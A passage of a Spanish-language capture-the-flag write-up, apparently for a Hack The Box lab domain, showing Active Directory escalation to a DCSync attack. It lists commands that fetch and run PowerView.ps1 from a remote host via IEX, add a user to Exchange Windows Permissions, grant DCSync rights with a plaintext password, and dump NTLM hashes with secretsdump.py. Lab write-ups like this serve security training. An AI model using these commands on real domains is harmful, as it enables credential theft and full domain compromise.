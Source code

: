 

> **DCsync:** Este ataque nos permite pretender ser un controlador de dominio y solicitar datos de contraseña de cualquier usuario. esto puede ser utilizado por los atacantes para obtener el hash NTLM de cualquier cuenta, incluida la cuenta KRBTGT, que permite a los atacantes crear Boletos Dorados.


La estrategia es la siguiente:

![](https://lh5.googleusercontent.com/-iOQP5tPAfKzLm7SU0agShYOS4-eaDYCAysh5Xsd1sRYVjx3rUcbRgj5YmRkOE3rUfwr3-Xc4tYcnaVDXA6X8HBwJFfYRGnnra6pL4OHFMcsrI137zhVESiMTY1EOPKygwhcYZHR)

* Podemos observar que el usuario `SVC-ALFRESCO` es miembro de `SERVICE ACCOUNTS`, `PRIVILAGED IT ACCOUNTS` y `ACCOUNTS OPERATORS`.

* Los miembros del grupo `ACCOUNT OPERATORS` tienen privilegios **GenericAll**   sobre el grupo `EXCHANGE WINDOWS PERMISSIONS`. Esto significa que tenemos control total para manipular cualquier objeto de destino. 

* Los miembros del grupo `EXCHANGE WINDOWS PERMISSIONS` tienen permisos de escritura sobre  DACL (Discretionary Access Control List) en el dominio `HTB.LOCAL`. Esto significa que podemos otorgarnos el privilegio de **DcSync**.

* Con este privilegio nosotros seremos capaces de llevar acabo un ataque de **DcSync**.



Para llevar acabo el ataque necesitamos hacer uso de el script de `PowerView.ps1` del repositorio de [PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

> **Nota:** Si haces clic derecho sobre la linea de **WriteDacl** y presionas **Abuse Info** puedes ver los comandos que vamos a utilizar.

![](https://lh5.googleusercontent.com/JzwBYgu_YDD6336plFJfuS-MrHWnASJ2mu1P4NKO1l-RZTW_Pbq3DKccnt_QaGe6_HLl_YMDaHN3wyKOGfrAa01VXaQzQTU8uvsrf80Lt4O-YXT6Dru4tDnSzs-Egttw0NuIcgaT)

Primero descargamos y ejecutamos `PowerView.ps1` .
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.24/PowerView.ps1')
```
Después nos agregaremos al grupo de `Exchange Windows Permissions`.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" svc-alfresco /add /domain
```
Asignamos el permiso **DCSync** al usuario `SVC-ALFRESCO`.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force 
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Management.Automation.PSCredential('HTB\svc-alfresco', $SecPassword)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity "HTB.LOCAL\Domain Admins" -Rights DCSync
```

Dumpeamos los hashes **NTLM** en nuestra máquina kali.

```console
intrusionz3r0@kali:~$ sudo secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```
